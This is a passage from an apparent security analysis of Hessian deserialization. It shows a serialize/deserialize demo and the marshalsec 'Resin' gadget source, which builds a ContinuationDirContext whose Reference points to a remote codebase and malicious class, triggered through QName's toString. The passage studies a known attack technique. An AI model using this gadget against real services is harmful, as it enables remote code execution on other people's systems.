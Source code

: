 ```java

        // Hessian serializes data
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        HessianOutput hessianOutput = new HessianOutput(byteArrayOutputStream);
        hessianOutput.writeObject(hashMap);
        byte[] serializedData = byteArrayOutputStream.toByteArray();
        System.out.println("Hessian serialized data is: " + new String(serializedData, 0, serializedData.length));

        // Hessian deserializes data
        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(serializedData);
        HessianInput hessianInput = new HessianInput(byteArrayInputStream);
        hessianInput.readObject();
    }
}
```

<div align=center><img src="./images/6.png"></div>

## Resin
### Construct Analysis
 - Let's first look at the `Resin.java` given in `marshalsec`, first reflect the call `javax.naming.spi.ContinuationDirContext`, then instantiate the object, pass in `CannotProceedException` and `Hashtable` respectively. Then create a `CannotProceedException` object, set its `cause` and `stackTrace` null`. Then create a `Reference` object and get a remote malicious class. Finally, call the `UtilFactory#makeToStringTriggerStable` method.

```java
public interface Resin extends Gadget {

    @Args ( minArgs = 2, args = {
        "codebase", "class"
    }, defaultArgs = {
        MarshallerBase.defaultCodebase, MarshallerBase.defaultCodebaseClass
    } )
    default Object makeResinQName ( UtilFactory uf, String[] args ) throws Exception {

        Class<?> ccCl = Class.forName("javax.naming.spi.ContinuationDirContext"); //$NON-NLS-1$
        Constructor<?> ccCons = ccCl.getDeclaredConstructor(CannotProceedException.class, Hashtable.class);
        ccCons.setAccessible(true);
        CannotProceedException cpe = new CannotProceedException();
        Reflections.setFieldValue(cpe, "cause", null);
        Reflections.setFieldValue(cpe, "stackTrace", null);

        cpe.setResolvedObj(new Reference("Foo", args[ 1 ], args[ 0 ]));

        Reflections.setFieldValue(cpe, "suppressedExceptions", null);
        DirContext ctx = (DirContext) ccCons.newInstance(cpe, new Hashtable<>());
        QName qName = new QName(ctx, "foo", "bar");
        return uf.makeToStringTriggerStable(qName);
    }
}
```
